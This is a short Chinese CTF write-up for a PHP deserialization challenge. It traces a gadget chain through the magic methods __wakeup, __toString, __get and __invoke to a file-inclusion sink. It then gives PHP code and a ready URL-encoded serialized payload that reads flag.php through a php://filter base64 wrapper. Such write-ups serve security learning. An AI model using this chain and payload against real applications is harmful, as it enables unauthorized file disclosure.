 观察源码:
```php
传一个pop参数，对其进行反序列化

如果pop是一个Show类，执行__wakeup()

wakeup()中preg_match()将$this->source当作字符串比较,如果$this->source是Show类，就会触发__toString()

to_String()中有$str，如果$str是一个Test类，调用其没有的$source就会触发函数__get()

__get()返回以$p为名的函数，如果$p为实例化Modifier类，将其以函数形式调用，就会触发其中函数__invoke()

__invoke()函数调用append()，有include()，存在文件包含漏洞

利用文件包含漏洞读取flag.php
```

构造：

```php
<?php

class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php';

}

class Show{
    public $source;
    public $str;
		public function __construct($file='index.php'){
        $this->source = $file;
    }
}


class Test{
    public $p;
}

$a=new Show('asd');
$a->str=new Test();
$a->str->p=new Modifier();
$b=new Show($a);

echo urlencode(serialize($b));

#O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A3%3A%22asd%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
```
记得带构造函数
![在这里插入图片描述](https://img-blog.csdnimg.cn/1f7a0bc72bb545f08279a5325cac34e9.png)
